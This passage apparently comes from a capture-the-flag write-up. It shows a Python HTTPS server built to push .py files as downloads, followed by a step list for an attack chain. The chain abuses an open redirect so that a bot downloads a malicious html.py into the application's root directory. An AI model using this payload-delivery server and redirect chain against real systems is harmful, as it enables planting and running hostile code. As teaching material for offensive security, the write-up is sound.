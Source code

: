 ```python
                self.send_header('Content-Disposition',
                               f'attachment; filename="{os.path.basename(self.path)}"')
                self.send_header('Content-Length',
                               str(os.path.getsize(self.translate_path(self.path))))
                self.end_headers()

                with open(self.translate_path(self.path), 'rb') as f:
                    self.copyfile(f, self.wfile)
            except Exception as e:
                print(f"Error serving file: {type(e).__name__}: {str(e)}")
                return
        else:
            super().do_GET()

def run_server(port=443, cert_file='cert.pem', key_file='key.pem'):
    server = HTTPServer(('0.0.0.0', port), StreamingHandler)
    context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
    context.load_cert_chain(cert_file, key_file)
    server.socket = context.wrap_socket(server.socket, server_side=True)
    print(f"Server running on port {port}")
    server.serve_forever()

def create_self_signed_certs():
    if not os.path.exists('cert.pem') or not os.path.exists('key.pem'):
        os.system('openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes -subj "/CN=localhost"')
        print("Created self-signed certificates")

if __name__ == '__main__':
    create_self_signed_certs()
    run_server(port=443)
```

This HTTPS server creates a self signed certificate and accepts connections with TLS on only, additionally it serves every single file as a downloadable, except for `.html` files that will be displayed (Coming back to this).

So from here let us:

1. Enable experimental features in the admin panel.
2. Create a malicious `html.py` to be downloaded by the bot.
3. Serve a `https web server` that will send `.py` files as downloadables.
4. Abuse the `open redirect` vulnerability in the impersonate functionality to send the bot to our server.
5. Make the bot download the malicious `html.py` to the root directory, next to `app.py`


See it in action below:

<video autoplay loop muted playsinline controls>
  <source src="/download_html.webm" type="video/webm">
  Your browser does not support the video tag.
</video>
